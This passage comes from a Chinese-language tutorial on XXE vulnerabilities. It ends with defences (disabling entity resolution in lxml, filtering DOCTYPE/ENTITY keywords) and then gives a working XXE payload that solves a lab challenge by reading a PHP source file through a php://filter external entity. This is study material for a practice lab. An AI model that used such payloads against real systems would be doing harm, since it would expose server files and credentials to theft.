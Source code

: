    Python

   ```python
   from lxml import etreexmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
   ```

2. 过滤用户提交的 XML 数据

   过滤关键词：<!DOCTYPE 和<!ENTITY，或者 SYSTEM 和 PUBLIC

3. 要对网站就收的数据进行过滤，不然就会产生XXE漏洞。

## 实例

### XEE-Lab通关

通关的payload：

```
<?xml version = "1.0"?>
<!DOCTYPE ANY [ <!ENTITY f SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php"> ]>
<user><username>&f;</username><password>Mikasa</password></user>
```

![xxe-lab通关](./xxe-lab通关.png)

### CTF-Jarvis-OJ-Web-XXE
